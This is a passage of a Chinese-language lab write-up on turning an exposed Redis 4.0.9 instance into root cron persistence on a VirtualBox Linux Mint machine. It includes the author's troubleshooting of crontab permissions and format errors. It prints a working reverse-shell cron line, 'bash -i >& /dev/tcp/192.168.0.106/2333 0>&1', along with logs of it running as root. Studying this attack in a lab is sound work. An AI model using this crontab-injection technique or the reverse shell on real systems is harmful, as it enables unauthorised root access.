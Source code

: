 ```shell
```
再次运行利用脚本，成功写入`/var/spool/cron/crontabs/root`，
```shell
REDIS0008ú      redis-ver^E4.0.9ú
redis-bitsÀ@ú^EctimeÂvÆ^Q_ú^Hused-memÂÈ#^M^@ú^Laof-preambleÀ^@þ^@û^A^@^@À^A:

* * * * * bash -i >& /dev/tcp/192.168.0.106/2333 0>&1


ÿ<9c>^TL¶d¦ª
```
奇怪的是，即使成功写入，也并未触发反弹shell，重启cron服务无效
```shell
sudo service cron status
```
查看cron log日志，发现没有开启，找到rsyslog日志中cron部分，去掉前面的#号，重启rsyslog
```shell
mint@mint-VirtualBox:~$ less -10 /var/log/cron.log
/var/log/cron.log: No such file or directory
mint@mint-VirtualBox:~$ sudo vim /etc/rsyslog.d/50-default.conf
mint@mint-VirtualBox:~$ sudo service rsyslog restart
```
cron log日志如下，
```shell
int@mint-VirtualBox:~$ tail -f /var/log/cron.log
Jul 18 18:33:05 mint-VirtualBox crontab[2035]: (root) LIST (root)
Jul 18 18:34:02 mint-VirtualBox cron[573]: (root) INSECURE MODE (mode 0600 expected) (crontabs/root)
```
网上搜索必须"chmod 600"才行，默认的情况好像是644？
```shell
mint@mint-VirtualBox:~$ sudo ls -l /var/spool/cron/crontabs/
total 4
-rw-r--r-- 1 root root 54 Jul 18 17:36 root
mint@mint-VirtualBox:~$ sudo chmod 600 /var/spool/cron/crontabs/root
mint@mint-VirtualBox:~$ sudo ls -l /var/spool/cron/crontabs/
total 4
-rw------- 1 root root 54 Jul 18 17:36 root
mint@mint-VirtualBox:~$ sudo service cron restart
```
然后继续观察日志，
```shell
Jul 18 19:17:01 mint-VirtualBox CRON[2759]: (root) CMD (   cd / && run-parts --report /etc/cron.hourly)
Jul 18 19:26:01 mint-VirtualBox cron[2173]: (root) RELOAD (crontabs/root)
Jul 18 19:26:01 mint-VirtualBox cron[2173]: Error: bad minute; while reading crontab for user root
Jul 18 19:26:01 mint-VirtualBox cron[2173]: (root) ERROR (Syntax error, this crontab file will be ignored)
Jul 18 19:27:09 mint-VirtualBox crontab[2843]: (root) LIST (root)
```
据上面日志猜测可能是由于crontab文件格式的问题，我们尝试把`/var/spool/cron/crontabs/root`文件内容改成一条反弹shell的任务，即 
```shell
root@mint-VirtualBox:/data/hack/C/middleware/redis# cat /var/spool/cron/crontabs/root 
* * * * * bash -i >& /dev/tcp/192.168.0.106/2333 0>&1
```
相关日志，
```shell
Jul 18 19:30:01 mint-VirtualBox cron[2173]: (root) RELOAD (crontabs/root)
Jul 18 19:30:01 mint-VirtualBox CRON[2869]: (root) CMD (bash -i >& /dev/tcp/192.168.0.106/2333 0>&1)
Jul 18 19:30:01 mint-VirtualBox CRON[2868]: (CRON) info (No MTA installed, discarding output)
Jul 18 19:31:01 mint-VirtualBox CRON[2881]: (root) CMD (bash -i >& /dev/tcp/192.168.0.106/2333 0>&1)
Jul 18 19:31:01 mint-VirtualBox CRON[2880]: (CRON) info (No MTA installed, discarding output)
```